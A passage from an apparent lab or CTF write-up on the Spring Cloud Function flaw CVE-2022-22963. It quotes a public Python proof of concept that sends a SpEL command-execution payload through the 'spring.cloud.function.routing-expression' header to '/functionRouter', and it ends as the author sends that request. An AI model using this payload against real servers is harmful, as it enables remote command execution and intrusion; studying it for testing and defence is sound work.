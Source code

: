 #### Scan

[This GitHub from
dinosn](https://github.com/dinosn/CVE-2022-22963/blob/main/poc.py) has a
simple POC to scan for CVE-2022-22963. This script takes a list of urls,
and loops over them in threads. For each, it sends an HTTP POST request,
and if the response code is 500, the result is success:



        for  url  in  urllist :
            url = url.strip('\n')
            all = url + path
            try:
                req=requests.post(url=all,headers=headers,data=data,verify=False,timeout=3)
                code =req.status_code
                text = req.text
                rsp = '"error":"Internal Server Error"'

                if code == 500 and rsp in text:
                    print ( f'[+] { url } is vulnerable' )
                    poc_file = open('vulnerable.txt', 'a+')
                    poc_file.write(url + '\n')
                    poc_file.close()
                else:
                    print ( f'[-] { url } not vulnerable' )



A bit before that, it sets the data that will be sent:



        payload=f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'

        data ='test'
        headers = {
            'spring.cloud.function.routing-expression':payload,
            'Accept-Encoding': 'gzip, deflate',
            'Accept': '*/*',
            'Accept-Language': 'en',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
            'Content-Type': 'application/x-www-form-urlencoded'
        }
        path = '/functionRouter'



Execution appears to be in a specially formatted
`spring.cloud.function.routing-expression` header.

I'll try sending this request, and it does crash:
